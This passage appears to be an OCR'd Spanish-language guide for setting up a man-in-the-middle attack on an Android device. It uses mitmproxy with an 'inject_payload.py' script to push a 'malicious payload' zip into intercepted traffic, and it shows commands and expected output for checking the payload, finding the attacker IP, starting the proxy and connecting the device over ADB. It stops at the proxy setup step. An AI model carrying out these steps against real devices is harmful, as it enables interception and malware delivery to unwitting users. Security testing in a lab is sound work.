 ### **1.3 Verificar Archivos Críticos**

```bash
ls -la payload/build/payload.zip    # Payload malicioso (debe existir)
ls -la mitmproxy/inject_payload.py  # Script de interceptación
```

---

## 🌐 **FASE 2: Configuración de mitmproxy**

### **2.1 Obtener IP del Atacante**

```bash
# En Mac/Linux
ifconfig | grep inet

# Ejemplo de salida:
# inet 192.168.0.189 netmask 0xffffff00 broadcast 192.168.0.255
```

### **2.2 Iniciar mitmproxy**

```bash
# Desde el directorio raíz del proyecto
mitmproxy -s mitmproxy/inject_payload.py --listen-port 8080
```

**Resultado esperado:**

```
Loading script mitmproxy/inject_payload.py
🎯 PayloadInjector inicializado
📦 Payload path: /path/to/payload/build/payload.zip
Proxy server listening at http://*:8080
```

---

## 📱 **FASE 3: Configuración del Dispositivo Android**

### **3.1 Conectar Dispositivo**

```bash
# Verificar conexión ADB
adb devices

# Resultado esperado:
# List of devices attached
# emulator-5554   device
```

### **3.2 Configurar Proxy Automáticamente**
